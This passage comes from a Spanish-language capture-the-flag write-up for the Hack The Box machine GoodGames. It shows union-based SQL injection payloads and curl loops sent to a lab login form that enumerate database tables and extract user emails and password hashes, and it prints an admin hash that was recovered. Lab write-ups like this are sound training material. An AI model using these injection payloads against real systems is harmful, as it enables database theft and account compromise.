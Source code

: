 ```SQL
' union select NULL,NULL,NULL,concat(email,'---',password) FROM user-- -
```

Resultado email y password: `admin@goodgames.htb---2b22337f218b2d82dfc3b6f77e7cb8ec`

![Captura](./Imágenes/burp_6.png)

### Enumeración con curl

Listando todas las tablas de la base de datos en uso

```bash
for i in $(seq 0 100); do echo "[+] Para $i: $(curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,table_name FROM information_schema.tables limit $i,1-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done
```

Resultado:

```bash
[+] Para 0: ADMINISTRABLE_ROLE_AUTHORIZATIONS
[+] Para 1: APPLICABLE_ROLES
[+] Para 2: CHARACTER_SETS
[+] Para 3: CHECK_CONSTRAINTS
[+] Para 4: COLLATIONS
[+] Para 5: COLLATION_CHARACTER_SET_APPLICABILITY
[+] Para 6: COLUMNS
[+] Para 7: COLUMNS_EXTENSIONS
```

Listando tablas de la base de datos `main`

```bash
for i in $(seq 0 100); do echo "[+] Para $i: $(curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,table_name FROM information_schema.tables where table_schema='main' limit $i,1-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done
```

Resultado:

```bash
[+] Para 0: blog
[+] Para 1: blog_comments
[+] Para 2: user
```

Extrayendo `email` y `password` de la tabla `user`

```bash
curl -s -X POST http://10.10.11.130/login --data "email=tests%40test.com' union select NULL,NULL,NULL,concat(email,':',password) FROM user-- -&password=test"  | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
```

Resultado:
